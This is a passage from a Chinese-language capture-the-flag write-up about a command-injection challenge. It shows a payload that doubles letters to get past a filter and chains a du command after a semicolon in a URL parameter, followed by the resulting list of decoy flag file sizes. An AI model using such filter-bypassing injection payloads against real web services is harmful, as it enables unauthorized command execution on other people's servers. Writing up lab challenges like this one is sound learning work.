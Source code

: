 `-a` 選項是選擇檢視資料夾外也要檢視檔案，`-h` 選項是選擇輸出 human friendly 的字串，`--apparent-size` 選項是選擇看檔案實際大小

payload: `ccdd ....; dduu --apparent-size -ah`
http://20.125.142.38:8499/wH4t_Y0u_d1d?Th1nK_Tw1c3=ccdd+....%3B+dduu+--apparent-size+-ah
![](https://i.imgur.com/2ZpTfr9.png)

將這些文字複製後，我們的作法是使用 c 的 printf 將字串做 formating 以方便觀看，並搭配 grep 篩選出 .txt 檔案

結果整理如下:
```
23  ./flag=/flag/flag/flag/flag/flag.txt
663 ./injection/requirements.txt
23  ./flag--------------------/flag/flag/flag/flag/flag.txt
23  ./flag-------------------/flag/flag/flag/flag/flag.txt
23  ./flag------------------/flag/flag/flag/flag/flag.txt
23  ./flag-----------------/flag/flag/flag/flag/flag.txt
23  ./flag----------------/flag/flag/flag/flag/flag.txt
23  ./flag---------------/flag/flag/flag/flag/flag.txt
23  ./flag--------------/flag/flag/flag/flag/flag.txt
38  ./flag-------------/flag/flag/flag/flag/flag.txt
23  ./flag------------/flag/flag/flag/flag/flag.txt
23  ./flag-----------/flag/flag/flag/flag/flag.txt
23  ./flag----------/flag/flag/flag/flag/flag.txt
23  ./flag---------/flag/flag/flag/flag/flag.txt
23  ./flag--------/flag/flag/flag/flag/flag.txt
23  ./flag-------/flag/flag/flag/flag/flag.txt
23  ./flag------/flag/flag/flag/flag/flag.txt
23  ./flag-----/flag/flag/flag/flag/flag.txt
23  ./flag----/flag/flag/flag/flag/flag.txt
23  ./flag---/flag/flag/flag/flag/flag.txt
23  ./flag--/flag/flag/flag/flag/flag.txt
23  ./flag-/flag/flag/flag/flag/flag.txt
23  ./flag/flag/flag/flag/flag/flag.txt
23  ./flag===========================/flag/flag/flag/flag/flag.txt
23  ./flag==========================/flag/flag/flag/flag/flag.txt
23  ./flag=========================/flag/flag/flag/flag/flag.txt
23  ./flag========================/flag/flag/flag/flag/flag.txt
23  ./flag=======================/flag/flag/flag/flag/flag.txt
23  ./flag======================/flag/flag/flag/flag/flag.txt
23  ./flag=====================/flag/flag/flag/flag/flag.txt
23  ./flag====================/flag/flag/flag/flag/flag.txt
23  ./flag===================/flag/flag/flag/flag/flag.txt
23  ./flag==================/flag/flag/flag/flag/flag.txt
23  ./flag=================/flag/flag/flag/flag/flag.txt
23  ./flag================/flag/flag/flag/flag/flag.txt
23  ./flag===============/flag/flag/flag/flag/flag.txt
23  ./flag==============/flag/flag/flag/flag/flag.txt
23  ./flag=============/flag/flag/flag/flag/flag.txt
23  ./flag============/flag/flag/flag/flag/flag.txt
23  ./flag===========/flag/flag/flag/flag/flag.txt
23  ./flag==========/flag/flag/flag/flag/flag.txt
23  ./flag=========/flag/flag/flag/flag/flag.txt
23  ./flag========/flag/flag/flag/flag/flag.txt
23  ./flag=======/flag/flag/flag/flag/flag.txt
23  ./flag======/flag/flag/flag/flag/flag.txt
23  ./flag=====/flag/flag/flag/flag/flag.txt
23  ./flag====/flag/flag/flag/flag/flag.txt
23  ./flag===/flag/flag/flag/flag/flag.txt
23  ./flag==/flag/flag/flag/flag/flag.txt
```

